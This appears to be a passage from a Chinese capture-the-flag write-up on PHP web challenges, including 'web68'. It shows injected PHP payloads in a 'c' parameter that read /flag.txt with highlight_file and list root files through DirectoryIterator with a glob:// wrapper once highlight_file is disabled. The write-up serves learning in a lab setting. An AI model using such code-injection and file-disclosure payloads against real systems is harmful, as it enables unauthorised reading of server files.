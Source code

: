 ```
c=highlight_file("/flag.txt");
```

得到flag

![image-20240122125440350](照片/image-20240122125440350.png)

------

#### web68

发现没有代码

![image-20240122221130365](照片/image-20240122221130365.png)

提示 highlight_file()被禁用

先查看flag位置

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}
```

